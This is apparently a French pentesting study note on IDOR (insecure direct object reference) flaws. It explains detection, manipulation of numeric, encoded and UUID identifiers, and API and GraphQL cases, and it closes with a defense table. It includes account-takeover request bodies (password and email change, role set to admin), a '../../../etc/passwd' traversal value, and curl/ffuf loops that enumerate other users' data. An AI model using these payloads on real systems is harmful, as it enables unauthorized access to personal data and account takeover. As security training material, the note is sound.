

# IDOR — Insecure Direct Object References

> [!info] **En 1 phrase**
> IDOR = l'app référence un objet (profil, fichier, commande…) directement via une **valeur fournie par l'utilisateur** (id, uuid, filename…) **sans vérifier que l'utilisateur est autorisé** sur cet objet → lecture/écriture/suppression de données d'autrui, simple à trouver et à exploiter.
>
> Source principale : **[PayloadsAllTheThings (swisskyrepo)](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Insecure%20Direct%20Object%20References/README.md)**

---

## Concept



> [!info] **Pourquoi ça marche**
> La faille n'est pas le **format** de l'ID mais **l'absence de contrôle d'autorisation par objet**.
> L'app vérifie que l'on est connecté (auth) mais PAS que l'objet demandé nous appartient (authz).
> Change le paramètre → tu accèdes à l'objet d'un autre compte.

---

## Définition & vocabulaire

- **IDOR** (Insecure Direct Object Reference) : référence directe à un objet via une entrée utilisateur, sans contrôle d'accès. Catégorie rattachée à **BOLA** (Broken Object Level Authorization) dans l'OWASP API Top 10.
- **Auth ≠ Autorisation** :
  - **Authentification** = qui es-tu ? (login, session, JWT)
  - **Autorisation** = as-tu le droit sur CET objet ? C'est le maillon manquant en IDOR.
- **Quand un ID est exposé** :
  - **URL / query string** : `/api/orders?id=123`, `/download?file=45`
  - **Path** : `/users/123/messages`, `/api/v2/invoices/9999`
  - **Body JSON/POST** : `{"user_id": 5}`, `{"invoiceId": 88}`
  - **Cookie / header** : `Cookie: userId=3`, `X-User-Id: 3`, JWT contenant l'ID

```http
GET /api/v1/users/456/profile HTTP/1.1
Host: target.com
Cookie: session=eyJhbGciOi...

GET /account?id=789 HTTP/1.1
```

```json
POST /api/v1/update-profile HTTP/1.1
Content-Type: application/json

{ "user_id": 12, "email": "nouveau@mail.com" }
```

---

## Détection

### Méthodologie de base (2 comptes)

> [!tip] **La méthode des 2 comptes** (account A / account B) est le cœur de la détection.
> Connecte-toi avec le compte A, capture une requête qui touche un objet, puis remplace l'identifiant
> par celui du compte B. Si la réponse contient les données de B → **IDOR confirmé**.

```bash
# 1. Se connecter sur le compte A, naviguer, capturer TOUT dans Burp (Proxy > HTTP history)
# 2. Identifier les paramètres qui référencent des objets :
#    id, uid, user_id, userId, account, account_id, doc, file, filename,
#    invoice, order, booking, reference, token, key, guid, uuid, slug
# 3. Comparer la réponse du compte A vs celle du compte B (mêmes requêtes)
```

### Chercher les IDs dans les requêtes

| À chercher | Exemple | Réponse attendue si IDOR |
|---|---|---|
| IDs numériques | `?id=123`, `/order/456` | données d'un autre objet |
| UUID / GUID | `?token=550e8400-...` | données si devinable/predictible |
| Identifiants devinables | `?user=john.doe`, `?email=x@y.com` | compte d'un autre user |
| Valeurs encodées | base64 / hex / hash | données après décodage |
| Noms de fichiers | `download?file=invoice_12.pdf` | fichier d'un autre user |
| Wildcards | `*`, `%`, `.`, `_` | parfois **toutes** les données |

### Tester avec un compte B

```bash
# 1. Récupérer un ID du compte B (ex : id=200)
# 2. Dans la requête du compte A, remplacer l'ID :
#    GET /account?id=1        → données compte A
#    GET /account?id=200      → données compte B = IDOR
# 3. Tester l'ID 0, l'ID suivant, les IDs voisins (id=1,2,3...)
# 4. Si l'app renvoie un 403/404 : tester encore (statut ≠ sécurité, voir pièges)
```

---

## Payloads & manipulation d'identifiants

### Incrémentation d'IDs numériques

```bash
# Incrémenter / décrémenter
id=1  → id=2  → id=3  → id=10000
id=287789 → id=287790 → id=287791

# Formats numériques alternatifs (même valeur, parseurs différents)
id=123        # décimal
id=0x7b       # hexadécimal
id=0173       # octal
id=123.0      # flottant
id=123%20     # avec espace (normalisation serveur)

# Unix timestamp en tant qu'ID (prédictible)
1695574808, 1695575098, 1695575398  # + quelques secondes
```

### IDs encodés (base64 / hex / hash)

```bash
# Base64 (classique : id ou email encodé)
#  id=5  →  id=NQ==
#  id=1  →  id=MQ==
echo -n "1" | base64        # MQ==
echo -n "100" | base64      # MTAw
echo -n "john.doe@mail.com" | base64   # am9obi5kb2VAbWFpbC5jb20=

# Hex
id=0x7b   → 123
# MD5/SHA d'un email, d'un username ou d'un timestamp
# md5("1")  = c4ca4238a0b923820dcc509a6f75849b
# md5("2")  = c81e728d9d4c2f636f067f89cc14862c
# sha1("john.doe@mail.com") → hash prédictible si le format est connu
```

> [!tip] **Hash ≠ sécurité** : si l'ID est `md5(user_id)` ou `sha1(username)`,
> rebrute simplement les valeurs candidates (`id=1..N`, emails, usernames) et recompute le hash.

### UUID / GUID

```bash
# UUID v1 = prédictible si on connaît le timestamp de création
# 95f6e264-bb00-11ec-8833-00155d01ef00  → date embarquée dans le UUID
# UUID v4 = aléatoire → bruteforce inefficace en aveugle, mais :
#  - fuite dans les JS, URLs partagées, logs, historiques
#  - faible entropie sur certains backends (Math.random, seed fixes)
# MongoDB ObjectId = prédictible (4 bytes timestamp + 3 machine + 2 pid + 3 compteur)
# 5ae9b90a2c144b9def01ec37  → temps, machine, processus sont devinables
```

### Wildcard / paramètres spéciaux

```http
GET /api/users/* HTTP/1.1
GET /api/users/% HTTP/1.1
GET /api/users/_ HTTP/1.1
GET /api/users/. HTTP/1.1
GET /api/users/ HTTP/1.1
GET /api/users?limit=100000 HTTP/1.1
```

> [!warning] Certains backends interprètent `*`, `%`, `_`, `.` ou un **paramètre vide**
> comme un filtre "tout" → réponse contenant les objets de **tous les utilisateurs**.

### IDs dans le body JSON

```json
POST /api/order/create HTTP/1.1
Content-Type: application/json

{ "userId": 5, "productId": 99, "quantity": 1 }

-- Injection de l'ID d'un autre compte :
{ "userId": 5, "productId": 99, "email": "victime@mail.com" }
```

### Mass IDOR (IDOR scanning)

```bash
# Tester une plage d'IDs avec ffuf
ffuf -u https://target.com/api/v1/user/FUZZ -w ids.txt -mc 200 -o idor.json

# IDs séquentiels rapides
seq 1 1000 > ids.txt

# Ou simple boucle bash
for i in $(seq 1 100); do
  code=$(curl -s -o /dev/null -w "%{http_code}" -H "Cookie: session=...A" \
    "https://target.com/account?id=$i")
  echo "$i : $code"
done
```

---

## Cas API / GraphQL

### REST endpoints

```http
# Endpoints à tester en priorité (objets métier)
GET    /api/v1/users/{id}
GET    /api/v1/orders/{id}
GET    /api/v1/invoices/{id}
GET    /api/v1/messages/{id}
DELETE /api/v1/messages/{id}
PUT    /api/v1/users/{id}
GET    /api/v2/accounts/{uuid}/transactions
```

> [!tip] **Chaque verbe HTTP = un test séparé** : un GET peut être protégé alors que le
> DELETE/PUT/PATCH ne l'est pas. Automatise les 4 verbes sur chaque ressource.

### Arrays d'IDs (mass assignment)

```json
// L'app accepte un tableau → bypass du contrôle sur "un seul" objet
{ "ids": [5] }        →   { "ids": [5, 6, 7, 8] }

// Payload classique de fuite massive
{ "ids": ["1","2","3","4","5"] }

// id dans un tableau au lieu d'un scalaire (parsing lenient)
{"id": 19}   →   {"id": [19]}
```

### POST/PUT mass update

```json
POST /api/v1/orders/bulk-update HTTP/1.1
Content-Type: application/json

{ "orderIds": [123, 124, 125], "status": "shipped" }

POST /api/v1/messages/delete HTTP/1.1
Content-Type: application/json

{ "messageIds": ["<ids des messages des autres>"] }
```

### GraphQL

> Lien détaillé : [[GraphQL| GraphQL]]. En bref :

```graphql
# Query : accéder à un objet par son ID sans contrôle
query { user(id: "123") { email passwordHash } }

# Mutation : écrire sur l'objet d'un autre
mutation { updateUser(id: "456", input: {email: "attacker@x.com"}) }

# Arrays / alias pour dumper plusieurs comptes en une requête
query {
  u1: user(id: "1") { email }
  u2: user(id: "2") { email }
  u3: user(id: "3") { email }
}
```

---

## Escalades IDOR

### IDOR en écriture (write IDOR)

```json
// Changer le mot de passe d'un autre utilisateur
POST /api/user/change-password HTTP/1.1
Content-Type: application/json

{ "userId": 456, "newPassword": "Pwned123!" }

// Modifier l'email d'un autre → prend le contrôle de son compte (password reset)
PUT /api/v1/users/456 HTTP/1.1
Content-Type: application/json

{ "email": "attacker@evil.com" }

// Changer le rôle / monter en privilège
PATCH /api/v1/users/456 HTTP/1.1
Content-Type: application/json

{ "role": "admin" }

// Ajouter/supprimer des admin, modifier des soldes, des statuts de commande
```

### Bypass de vérification

```bash
# La vérification existe mais est contournable :
# 1. Méthode différente : POST → PUT (la vérification n'existe que sur POST)
# 2. Content-type différent : XML → JSON (parseur différent, pas de vérif)
# 3. Paramètre dupliqué (HTTP parameter pollution) :
#    user_id=hacker_id&user_id=victim_id   → le backend lit le 2e
# 4. Champs en trop ignorés : {"id": 5, "owner": "attacker"}
# 5. Point final : /api/users/5/update vs /api/user/update (route non protégée)
```

```http
POST /api/order HTTP/1.1
Content-Type: application/xml

<order>
  <userId>123</userId>
</order>
```

### Chaînes IDOR (IDOR chains)

```bash
# Enchaîner plusieurs IDOR pour augmenter l'impact :
# 1. IDOR lecture : lister les factures des autres  → obtenir un UUID client
# 2. IDOR fichier : télécharger la facture (fichier référencé par ce UUID)
# 3. IDOR écriture : modifier l'email de ce client → reset son password
# 4. Takeover complet du compte victime
```

---

## IDOR par référence de fichier

```http
GET /download?id=12 HTTP/1.1
GET /download?file=invoice_12.pdf HTTP/1.1
GET /api/avatars?user=456 HTTP/1.1
GET /media/avatars/456.png HTTP/1.1
```

```bash
# Cibles classiques
#  - Factures / reçus (invoices, receipts, bills)
#  - Photos de profil, pièces jointes de messages
#  - Documents uploadés (CV, pièces d'identité, contrats, relevés bancaires)
#  - Sauvegardes, exports PDF/CSV
#  - Fichiers temporaires (tmp/, uploads/, backups/)

# Incrémenter les références de fichiers comme les IDs
for i in $(seq 1 500); do
  curl -s -H "Cookie: session=A" "https://target.com/download?file=$i" \
    -o /dev/null -w "file $i → %{http_code} (%{size_download} octets)\n"
done
# Une taille > 0 sur un fichier qui n'est pas le nôtre = IDOR fichier
```

> [!tip] **Tester aussi le nom de fichier** : `file=../../../etc/passwd` peut se
> transformer en **LFI** si le chemin n'est pas validé (voir [[LFI et RFI| LFI / RFI]]).

---

## Outils & automatisation

### Burp Suite

| Extension | Rôle |
|---|---|
| **Autorize** | Rejoue automatiquement chaque requête avec une session bas-privilégié (compte B) → détecte les accès non autorisés en un clic |
| **Auth Analyzer** | Analyse les réponses (200/401/403, longueur) entre compte A et compte B, trie les vulnérables |
| **AuthMatrix** | Matrice users×rôles×requêtes, teste toutes les combinaisons |
| **AutoRepeater** | Réécrit automatiquement les valeurs (id, cookie, header) dans chaque requête du proxy et compare les réponses |
| **Burp Intruder** | Fuzzing des IDs (payloads numériques séquentiels) |

### ffuf / wordlists

```bash
# Fuzzing d'IDs
ffuf -u https://target.com/api/v1/users/FUZZ -w ids.txt -mc 200 -fs 0

# Wordlist d'identifiants courants
# /usr/share/seclists/... Fuzzing/4-digits-0000-9999.txt
# /usr/share/seclists/Discovery/Web-Content/... 
# Créer sa plage : seq 1 1000 > ids.txt

# Comparer les tailles de réponse pour repérer les hits
ffuf -u https://target.com/download?id=FUZZ -w ids.txt -mc 200 \
     -mr "invoice" -o hits.json
```

### Scripts maison

```bash
# Diff : même requête avec compte A vs compte B → identifier ce qui diffère
#  - le code de statut
#  - la taille de la réponse
#  - le contenu (chercher des PII : email, carte, adresse)
curl -s -H "Cookie: session=A" "https://target.com/account?id=456" > compteA.html
curl -s -H "Cookie: session=B" "https://target.com/account?id=456" > compteB.html
diff compteA.html compteB.html

# Mass IDOR : boucle + grep des données sensibles
for i in $(seq 1 1000); do
  curl -s -H "Cookie: session=A" "https://target.com/api/user/$i" \
    | grep -q "carte_bancaire\|email" && echo "HIT id=$i"
done
```

> [!tip] **Idées d'outils open-source** : `idor-finder` (recherche des paramètres dans le
> trafic), scripts Burp custom, `bdc/turbo-intruder` (mass IDOR très rapide en Python).

---

## Détection & Défense

| Problème | Défense |
|---|---|
| ID exposé dans URL/body/cookie | Ne jamais se fier à un ID client : **toujours résoudre l'objet depuis la session serveur** |
| Auth OK mais pas d'authz | **Autorisation par objet** : vérifier `user_id == owner_id` sur CHAQUE objet avant action (lecture ET écriture) |
| `id` UUID "sécurisé" | Un identifiant **non devinable n'est PAS une défense** : vérifier les droits malgré tout (si fuite/partage → exposé) |
| Contrôles dispersés dans le code | **Contrôle d'accès centralisé** : un middleware/helper unique (`canAccess(obj, user)`) appliqué à toutes les routes |
| GET protégé, PUT pas | Tester les 4 verbes HTTP ; défendre **tous** les verbes |
| Mass IDOR (arrays, bulk update) | Valider que **chaque élément** du tableau appartient à l'utilisateur, pas juste le premier |
| Rôles mal gérés | Vérifier les droits hiérarchiques (admin/manager peuvent-ils voir TOUS les objets ? clients seulement les leurs ?) |
| Tests uniquement du login | Tester la **logique métier** : autorisation = fonctionnalité, à tester comme un bug |
| Erreurs révélatrices (403 vs 404) | Réponses homogènes pour masquer l'existence des objets |
| Logs | Journaliser les accès anormaux : requêtes vers des IDs voisins, rafales de GET sur `/api/user/*` |

---

## Tips & Pièges

> [!tip] **Ordre des tests**
> 1. Se connecter (compte A) et **mapper l'app** : historique Burp, endpoint discovery, JS files.
> 2. **Découvrir les paramètres** qui référencent des objets (id, uid, file, token…).
> 3. Capturer une requête, créer un **compte B**, comparer les réponses (même requête, ID de B).
> 4. Automatiser : Autorize/AutoRepeater sur tout le trafic, puis fuzzing d'IDs.
> 5. Escalader : écriture → takeover, fichiers → PII, chaînes d'IDOR → impact maximal.

> [!warning] **Pièges classiques**
> - **403/404 ≠ protégé** : vérifie le contenu de la réponse, pas seulement le statut.
> - **UUID n'arrête pas le bruteforce** : fuites dans le JS, URLs partagées, timestamps (UUID v1), MongoDB ObjectId prédictibles.
> - **Le hash d'un ID n'est pas un contrôle d'accès** : recompute hash("1"), hash("2")...
> - **Ne teste pas que le GET** : PUT, POST, PATCH, DELETE sont souvent oubliés dans le code.
> - **Le client te montrera un seul compte** : cherche toujours les endpoints multi-comptes, les requêtes en masse, les exports.
> - **Identifiants dans le body/cookies** : ne te limite pas à l'URL.
> - **Compte A = ton compte de test** : crée une victime (B) et compare méthodiquement, ne spamme pas les vrais comptes.
> - **Mass IDOR destructif** : préfère la lecture et les endpoints sans effet de bord pour ne pas casser la cible.

---

## Liens

- [[Injection SQL| SQLi]] — injection de requêtes, autre faille web classique
- [[GraphQL| GraphQL]] — surface d'attaque IDOR via queries/mutations
- [[Attaques JWT| Attaques JWT]] — quand l'ID est dans le token, jwt à forger/altérer
- [[LFI et RFI| LFI / RFI]] — quand l'IDOR fichier se transforme en lecture de fichiers serveur
- → Note complète : [[03 - Exploitation Web| Exploitation Web]]
- Source : [PayloadsAllTheThings — IDOR](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Insecure%20Direct%20Object%20References/README.md)
- Lab : [PortSwigger — Insecure Direct Object References](https://portswigger.net/web-security/access-control/lab-insecure-direct-object-references)
